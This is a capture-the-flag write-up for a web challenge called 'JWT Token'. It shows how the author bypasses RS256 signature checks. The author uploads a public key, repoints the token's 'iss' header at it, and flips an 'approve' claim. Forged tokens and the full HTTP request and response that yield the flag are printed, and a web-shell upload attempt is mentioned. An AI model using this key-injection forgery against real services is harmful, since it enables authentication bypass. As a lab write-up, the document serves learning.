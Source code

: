 ## JWT Token

Address: http://172.104.49.143:1574/

Sign in with username `admin`

<p align="center">
<img src = "https://user-images.githubusercontent.com/93431512/193450231-a8541ebb-04b1-4385-9f3c-940cc067e9cb.png" width="50%" align="center">
</p>

And also upload file...

<p align="center">
<img src = "https://user-images.githubusercontent.com/93431512/193450277-04df90a0-2892-4796-8519-bf050d271189.png" width="50%">
</p>

Go back to `/` there are some uploaded files that the directories of which have form `website/uploads/<username>/<filename>`

<p align="center">
<img src = "https://user-images.githubusercontent.com/93431512/193450313-52fc3f5b-ae2e-4e0d-8152-85de4d99a103.png" width="50%">
</p>

So.. maybe up shell and mark `hacked by tronghieu220403` but it does not work 

Let's check `Proxy history` and see `getflag.js`

<p align="center">
<img src = "https://user-images.githubusercontent.com/93431512/193450418-6423eabe-25d7-4946-a5ad-feedd95d045b.png" width="50%">
</p>

This Javascript code:
```Javascript
function getFiles(){
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "getflag", true);
    xhr.onload = function() {
        if (xhr.status === 200) {
            var flag = xhr.responseText.split("\n");
            var html = "";
            if (flag.length > 0) {
                    html += "<li>" + flag + "</li>";
                }
            document.getElementById("flag").innerHTML = html;
        } else {
            alert("Error: " + xhr.status);
        }
    }
    xhr.send();
}
```

Checking `./getflag`

<p align="center">
<img src = "https://user-images.githubusercontent.com/93431512/193450478-3f939786-770a-4554-a11e-badb6f104b1b.png" width="50%">
</p>

Get cookie on request
```http
Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImlzcyI6Imh0dHA6Ly9sb2NhbGhvc3Q6NTAwMC9zdGF0aWMva2V5cy5wdWIifQ.eyJ1c2VybmFtZSI6ImFkbWluIiwiYXBwcm92ZSI6ZmFsc2V9.KnO6VyVQ12jQ1uSJ8DmbxHDjMWi1-qkwx_EoVGmcpVJaP8E5g_YSl5t30Ij6cQQVFlfjMjJB0OFWm3rJtGcxvzcqgHRBZcPEPnoSPVgtq7GEa9VtsyjRYSMl7oUeiOJrnC0PifPt8KeAZRO43ZNnARULOxGH2Ntmqx6I7is4nPY1rkuz09_FxNMgiZ07gx8CBkKs7F8tNTqsIIWgEXVNFxB9QNlUokoxLjbr85muEz48-rpzqL74sKYA_pvhiwh7IoCRVg5WWrXUTEUIiA-tpX6q-CaImSSUtYL7CEw17O22hEggLwNrXBsJ17ApyaYkbU99ucB9HfMFqwdCBxudUBMagJihGLQe2w3wj_HJiYliIjdAk88l270Yjtm42OoeVW6Pf2XSR-d3ygjvNjjyxv2mBt6_443vx9nPTZ8TjA28mxGvRTs1nRHHmvDDpOLGT5WW6yApvRGoulFEsvrQdmKxPW3udGAy-xfVOjkWe_b7OaY2O4sFLKklR23Dz37H
```

Decode this Token by using [JWT Tool](https://token.dev)

<p align="center">
<img src = "https://user-images.githubusercontent.com/93431512/193450654-e6e9ca57-a3fe-43f1-9dd9-101e5893d829.png" width="100%">
</p>

We hope to change value of `approve` to `True`, but simultaneously it must be verified with RS256 

**Exploit:** We can tamper the Public key by changing `iss` value

<p align="center">
<img src = "https://user-images.githubusercontent.com/93431512/193451020-685bb621-4436-49d6-aab1-322c18dc6db5.png" width="100%">
</p>

Now we have new token

```http
GET /getflag HTTP/1.1
Host: 172.104.49.143:1574
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImlzcyI6Imh0dHA6Ly9sb2NhbGhvc3Q6NTAwMC91cGxvYWRzL2FkbWluL2hpaGkudHh0In0.eyJ1c2VybmFtZSI6ImFkbWluIiwiYXBwcm92ZSI6dHJ1ZX0.2y8teT0Yu5YlRuencanFDXbmvDkdbfgZVbtsfzCRlcBZSPtMNN0Y8dmR5yumoYPrR5SJbyDE454Sewai_nW_q7FYm0a-hrW4GdxcWvnFYNkNq-58_1NJ6XKjGUZiT89lNpMKevvYvbcEiO1fspg_10Pu9_T7PBsRw2KeXC_Vl1TuNSL5xKzdFiLxRdKdOr33QkoWqe0k4S_rp6jcbXlz2AMITcDDT5E8nWzvkPSycSke6klJGyN2Mf1H7CPzTN96d90m3fhbzKkf5a82jPo4R1IGth2b0fFLTMhCRHmhmX5k3gRswWkwZvLxiRmGy6Svtras6ldRWDMzIrhADujY1Q
Connection: close
```

```http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.10.5
Date: Sun, 02 Oct 2022 11:12:31 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 44
Connection: close

FLAG: Flag{JWT_token_is_the_best_token_ever}
```
